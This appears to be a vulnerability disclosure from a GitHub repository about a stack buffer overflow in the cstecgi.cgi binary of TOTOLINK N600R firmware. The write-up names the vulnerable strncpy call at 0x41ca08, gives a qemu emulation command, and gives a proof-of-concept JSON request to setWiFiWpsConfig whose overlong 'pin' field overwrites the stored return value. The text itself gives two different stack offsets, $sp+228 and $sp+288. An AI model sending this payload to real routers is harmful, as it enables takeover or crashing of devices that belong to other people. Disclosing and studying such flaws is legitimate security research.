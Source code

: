 ﻿# TOTOLINK_N600R_V4.3.0cu.7866_B20220506-buffer overflow

## File information

[](https://github.com/Luanruy/qax#file-information)

TOTOLINK_N600R_V4.3.0cu.7866_B20220506.web Unzipped cstecgi.cgi Download address:  [https://totolink.tw/support_view/N600R](https://totolink.tw/support_view/N600R)

## stack overflow point 0x41ca08

At 41ca08 in function FUN_0041c824, the strncpy function is called, which poses a risk of buffer overflow.
 
### Simulate running in qemu
```bash
#!/bin/bash
sudo  chroot  ./  ./qemu-mips-static\
-E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
./web_cste/cgi-bin/cstecgi_41c8dc.cgi  <  ./poke/41ca08_poc.json
```
### json
```json
{
	"topicurl" : "UploadCustomModule/setWiFiWpsConfig",
	"wifiIdx" : "1",
	"wscMode" : "1",
	"wscPinMode" : "1",
	"pin" : "11111111111111111111llllllllllllllllllllabcdDOIT"
}
```

### Operation Results
When checking the current function return, the return value will be taken from $sp+228. After running strncpy, it is found that the value at $sp+288 has been overwritten with "DOIT".
![enter image description here](https://i.miji.bid/2025/05/07/42f9bdbfef870ad5d89a99d89a4fd4f4.png)



